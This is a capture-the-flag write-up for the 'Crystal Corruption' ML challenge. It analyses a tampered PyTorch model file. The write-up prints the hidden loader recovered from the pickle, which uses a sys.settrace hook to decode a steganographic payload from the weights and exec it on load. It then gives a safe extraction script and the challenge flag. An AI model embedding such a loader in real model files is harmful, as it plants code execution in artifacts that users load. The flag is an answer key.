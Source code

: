 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Crystal Corruption
> In the Library of Loria, an ancient crystal (resnet18.pth) containing a magical machine learning model was activated. Unknown to the mage who awakened it, the artifact had been tampered with by Malakar’s followers, embedding malicious enchantments. As Eldoria’s forensic mage, analyze the corrupted model file, uncover its hidden payload, and extract the flag to dispel the dark magic.


- **Category**: ML 
- **Difficulty**: Medium
- **Author**: Alexct549

## Writeup

More stego please 🙏🏼🙏🏼🙏🏼

We first check for hidden code

```python
with open('resnet18.pth', 'rb') as f:
    content = f.read()

print(content[:2000])
```

Good we found it here it is

```python
import sys
import torch
def stego_decode(tensor, n=3):    
    import struct    
    import hashlib
    import numpy    
    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))    
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])    
    message = payload[68:68+size]    
    return message
def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
def return_tracer(frame, event, arg):
    if torch.is_tensor(arg):
        payload = stego_decode(arg.data.numpy(), n=3)
    if payload is not None:
        sys.settrace(None)               
        exec(payload.decode("utf-8"))    
    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer
sys.settrace(call_and_return_tracer)
```

And its a stego decode function let's rework it a little and it should work

```python
import torch
import numpy as np
import torchvision.models as models

def stego_decode(tensor, n=3):    
    import struct
    bits = np.unpackbits(tensor.view(dtype=np.uint8))    
    payload = np.packbits(np.concatenate([np.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])    
    message = payload[68:68+size]    
    return message

def extract_payload_from_model(model):
    for name, param in model.named_parameters():
        try:
            payload = stego_decode(param.data.numpy(), n=3)
            if payload:
                print(f"Payload found in tensor: {name}")
                print(f"Decoded payload: {payload.decode('utf-8')}")
                return payload.decode('utf-8')
        except Exception as e:
            pass
    return None

model = models.resnet18(pretrained=False)
state_dict = torch.load('resnet18.pth',weights_only=False, map_location='cpu')
model.load_state_dict(state_dict)

payload = extract_payload_from_model(model)
if payload:
    print("Successfully extracted payload:", payload)
else:
    print("No payload found in the model.")
```

PICKLES 🥒🥒🥒
> HTB{n3v3r_tru5t_p1ckl3_m0d3ls}
